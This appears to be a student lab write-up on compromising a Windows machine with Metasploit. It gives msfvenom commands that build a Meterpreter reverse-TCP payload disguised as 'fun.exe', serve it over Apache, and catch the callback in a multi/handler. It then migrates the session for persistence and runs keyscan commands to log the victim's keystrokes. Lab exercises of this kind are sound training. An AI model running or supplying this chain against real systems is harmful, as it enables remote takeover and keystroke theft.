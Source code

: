 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/606e3364-b0b9-43b5-9250-795b7598c04e)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/5dc05fce-63a2-47f9-b694-746b22ba200d)





copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/480f5425-ce40-497b-8b25-b7ad72bbaed8)



Start apache server
sudo systemctl apache2 start

![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/9d9a575a-d0d4-4463-adf7-ee84feedd93b)




Check the status of apache2
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/15c93b77-e16e-4fb1-9b41-6a7aeb1cd19b)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/f96bb7a2-4ba8-42d1-8c0e-f8f834e34bdc)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/17e4e8a1-f58e-422e-abd4-b79905434188)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/ae0f8e8c-f937-4ab1-85ad-1971688afc40)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/f6588fa0-2bf1-422e-a42f-cf7d687385a6)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/5409594d-f21d-4c89-9c27-7e3c5cc2ee27)




keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/JivanKarthick/Compromising-windows-using-Metasploit/assets/121165867/ea183567-a808-4dd4-81ca-9d782aae245c)






## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
